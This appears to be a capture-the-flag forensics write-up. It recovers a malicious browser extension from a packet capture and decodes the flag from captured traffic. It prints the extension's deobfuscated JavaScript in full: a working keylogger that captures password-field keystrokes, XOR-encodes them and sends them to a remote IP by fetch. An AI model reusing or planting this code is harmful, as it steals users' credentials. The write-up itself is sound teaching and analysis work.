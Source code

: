 <img width="799" height="302" alt="image" src="https://github.com/user-attachments/assets/83b71109-61e7-4732-9042-e13374c9216d" />  

Receiving pcap file, open it and checking, we can see some file can export:  

<img width="750" height="546" alt="image" src="https://github.com/user-attachments/assets/75380922-ad04-452a-aad8-710ef70b6327" />  

Extract all and see what `.rcx` file (google extension file) do. Rename it to `.zip` and using `binwalk` to extract, we receive 2 file.  

<img width="1457" height="98" alt="image" src="https://github.com/user-attachments/assets/243ac7dc-8037-4291-990a-78c07b0b6506" />  

<img width="555" height="505" alt="image" src="https://github.com/user-attachments/assets/4f6cd6c8-3335-40c7-92b4-2b52d5ccaae6" />  

First js file is obfucated, deobfucated it and we know it is keylogger do the XOR with some data (arcording to chat lol)  
```python
function getKey() {
  const _0x3733b8 = new Date().getUTCMinutes();
  return String.fromCharCode(_0x3733b8 + 0x20);
}
function xorEncrypt(_0x2d1e8c, _0x3beac1) {
  let _0x406d63 = '';
  for (let _0x58a85f = 0x0; _0x58a85f < _0x2d1e8c.length; _0x58a85f++) {
    const _0x384e0a = _0x2d1e8c.charCodeAt(_0x58a85f);
    const _0x4250be = _0x3beac1.charCodeAt(0x0);
    const _0x4df57c = _0x384e0a ^ _0x4250be;
    _0x406d63 += _0x4df57c.toString(0x10).padStart(0x2, '0');
  }
  return _0x406d63;
}
document.addEventListener("keydown", _0x4e7994 => {
  const _0x260e7d = _0x4e7994.target;
  if (_0x260e7d.type === 'password') {
    const _0x2c5a17 = _0x4e7994.key.length === 0x1 ? _0x4e7994.key : '';
    const _0x5e96ad = getKey();
    const _0x5a4007 = xorEncrypt(_0x2c5a17, _0x5e96ad);
    const _0x3a36f2 = encodeURIComponent(_0x5a4007);
    if (_0x2c5a17) {
      fetch('http://192.9.137.137:42552/?t=' + _0x3a36f2);
    }
  }
});
```
We also have the data from Wireshark above: 
```
5e 54 43 51 4c 52 4f 43 52 59 44 5e 58 59 44 68 5a 5e 50 5f 43 68 5d 42 44 43 68 44 42 54 5c 4a
```

Python script to find the key and brute-force to get the flag:
```python
data_hex = "5e 54 43 51 4c 52 4f 43 52 59 44 5e 58 59 44 68 5a 5e 50 5f 43 68 5d 42 44 43 68 44 42 54 5c 4a"
data_bytes = bytes.fromhex(data_hex)

for k in range(32, 92):  # key = minutes + 32
    decoded = ''.join([chr(b ^ k) for b in data_bytes])
    if 'ictf' in decoded:  
        print(f"Key: {k} -> {decoded}")
```
> Flag: ictf{extensions_might_just_suck}

Peace!











